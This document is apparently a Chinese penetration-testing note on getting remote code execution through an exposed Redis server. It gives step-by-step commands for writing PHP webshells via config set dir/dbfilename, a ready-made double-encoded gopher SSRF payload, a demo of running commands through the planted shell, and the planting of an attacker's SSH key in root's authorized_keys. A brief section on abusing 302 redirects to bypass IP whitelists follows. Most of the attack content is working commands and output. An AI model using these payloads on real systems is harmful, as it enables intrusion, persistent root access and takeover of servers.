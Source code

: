 ### redis的RCE

三种方式：
- 写webshell（需要知道web绝对路径、web路径redis用户有权限写）
- 写入到crontab
- 将攻击者的公钥写入到authorized_key，使用攻击者的私钥ssh登录（需要开启ssh服务）


#### 说明
```
dir: 工作目录
dbfilename: 数据库的文件名
```

### redis写shell原理

设置dir工作目录，然后设置dbfilename，通过这两个步骤设置了数据库的绝对路径和文件名。后续写入的键值对就写入到这个可控的文件中（初衷是数据库文件），这里变成了攻击者的shell文件。

在redis-cli下查看这两个值：
```
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```
然后在系统上查看这个目录和文件的权限。redis用户对这个文件具有读写权限。这个目录也是只有redis这个用户才能访问。

```
root@ubuntu:/proc# ll /var/lib/redis
total 188
drwxr-x---  2 redis redis  4096 Jan 10 22:25 ./
drwxr-xr-x 73 root  root   4096 Nov  5 22:35 ../
-rw-rw----  1 redis redis 58587 Jan 10 22:25 dump.rdb
-rw-rw----  1 redis redis 58587 Dec  9 18:46 temp-33935.rdb
-rw-rw----  1 redis redis 58587 Dec 27 17:58 temp-67951.rdb
```


### redis启动的权限问题
如果想通过redis写入webshell，而redis是以redis用户启动，apache2是以www-data用户启动，则redis用户无法写入/var/www/目录的文件。在save步骤会出错。
```
127.0.0.1:6379> set 1 "<?php @eval($_POST['cqq']);?>    "
OK
127.0.0.1:6379> save
(error) ERR
```

### redis写webshell步骤
```
127.0.0.1:6379> config set dir /var/www
OK
127.0.0.1:6379> config set dbfilename redis_shell4.php
OK
127.0.0.1:6379> set 1111 "    <?php system($_REQUEST['cqq']);?>   "
OK
127.0.0.1:6379> save
```

利用SSRF漏洞使用gopher协议实现，利用这个工具：
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher


修改`redis.cmd`文件中的命令，
```
flushdb
config set dir /var/html
config set dbfilename rshell2.php
set 1 '<?php phpinfo();?>'
save
quit
```
然后执行：
```
$ python2 redis-over-gopher.py
gopher://127.0.0.1:6379/_%2a%31%0d%0a%24%37%0d%0a%66%6c%75%73%68%64%62%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%38%0d%0a%2f%76%61%72%2f%77%77%77%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%31%30%0d%0a%72%73%68%65%6c%6c%2e%70%68%70%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%0d%0a%31%0d%0a%24%31%38%0d%0a%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%3f%3e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65%0d%0a%2a%31%0d%0a%24%34%0d%0a%71%75%69%74%0d%0a
```
得到gopher协议的payload。
然后需要对这个payload再进行一次urlencode：
```
gopher://127.0.0.1:6379/_%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%37%25%30%64%25%30%61%25%36%36%25%36%63%25%37%35%25%37%33%25%36%38%25%36%34%25%36%32%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%36%34%25%36%39%25%37%32%25%30%64%25%30%61%25%32%34%25%33%38%25%30%64%25%30%61%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%64%25%30%61%25%32%61%25%33%33%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%30%64%25%30%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%31%25%33%38%25%30%64%25%30%61%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%37%30%25%36%38%25%37%30%25%36%39%25%36%65%25%36%36%25%36%66%25%32%38%25%32%39%25%33%62%25%33%66%25%33%65%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%31%25%37%35%25%36%39%25%37%34%25%30%64%25%30%61
```


#### Demo
```
$ curl -i http://192.168.85.129/redis_shell4.php?cqq=ifconfig --output -
HTTP/1.1 200 OK
Date: Mon, 11 Jan 2021 08:00:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2538
Content-Type: text/html; charset=UTF-8

REDIS0008	redis-ver4.0.9
redis-bits󿿀򳨭eused-memÐ
                      Ϻ
                       aof-preamble~򀕄(    br-3f4328a91e7c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:91:42:81:60  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### 写入攻击者公钥实现rce
先生成公私钥对：
```
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/77/.ssh/id_rsa): /home/77/.ssh/redis_id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/77/.ssh/redis_id_rsa.
Your public key has been saved in /home/77/.ssh/redis_id_rsa.pub.
The key fingerprint is:
SHA256:ostXG7ywBhLm9vwOeJYn56d6W8mEJBnzFyQXGYYXCN8 77@ubuntu130
The key's randomart image is:
+---[RSA 2048]----+
|    +..+O=       |
|     *o=o.       |
|    o +.E        |
|  o  o o         |
| o .  o.S        |
|  +..o.++.       |
| ..+B.o+++       |
|   +oB=.+        |
|    +B*+         |
+----[SHA256]-----+

$ ll /home/77/.ssh/
total 28K
drwx------  2 77 77 4.0K Jan 11 00:06 ./
-rw-------  1 77 77 1.8K Jan 11 00:06 redis_id_rsa
-rw-r--r--  1 77 77  394 Jan 11 00:06 redis_id_rsa.pub
```

然后将公钥写到authorized_key文件里，注意如果直接写入，或者前后加空格写入，是不能起效果的。需要将公钥写入到文件，然后在文件前后加上换行符。
```
# (echo -e "\n\n\n\n"; cat redis_id_rsa.pub; echo -e "\n\n\n\n") > test.pub
root@ubuntu:~/.ssh# cat test.pub |redis-cli -x set 344444
OK
```
再连接redis确认这个值是否写入了换行符：
```
$ redis-cli
127.0.0.1:6379> get 344444
"\n\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChQBXUegXtU6HK7F9MKuWDPgKNt8Y2h2FNtg14x5qeX9mRrlurytc4dNPvmpuuNZY0yDBi2QAK4Py7bfBbRWLvcFWALoRcXfPobQzRk3beWzWifVZm9iibahqOGgmfKN1DJ5/KTvEHgtGmWOLAjr2ddy5HUnwXSjb3KBgJqdsvt+eQFWHZLDSFem5oU1hni+a/5tVFhciif5AFCpq8e1F+4RrqIGtfOj4IrW3PrqCWJUI60IUgL4MjYqBIf7sctMgGO6Ezlg86Eo8bPdpUh3ygooB6FOJaWqEiB9Kd1gEUIgaj5C/5Dt3McwTzUliJ8DhZ7dw5kUt1mC9hd3oz+AzR 77@ubuntu130\n\n\n\n\n"
127.0.0.1:6379> save
OK
```
从攻击者机器向redis所在的ssh服务发起连接：
```
$ ssh root@192.168.85.129 -i ~/.ssh/redis_id_rsa
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
New release '20.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

You have new mail.
Last login: Mon Jan 11 00:04:44 2021 from 192.168.85.130
root@ubuntu:~#
```


### 通过计划任务实现RCE
//TODO


### 302跳转

- 绕过IP白名单限制，
- 跳转到`http://brutelogic.com.br/poc.svg`等，转换成反射型XSS。
- 限定协议时，跳转到攻击者控制的主机，然后location：其他协议。

### 参考
- [利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
- [redis 在渗透中 getshell 方法总结](https://zhuanlan.zhihu.com/p/36529010)
- [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)
- [ssrf与gopher与redis](https://www.cnblogs.com/sijidou/p/13681845.html)
- [通过一道审计题了解SSRF](https://www.smi1e.top/%E9%80%9A%E8%BF%87%E4%B8%80%E9%81%93%E5%AE%A1%E8%AE%A1%E9%A2%98%E4%BA%86%E8%A7%A3ssrf/)
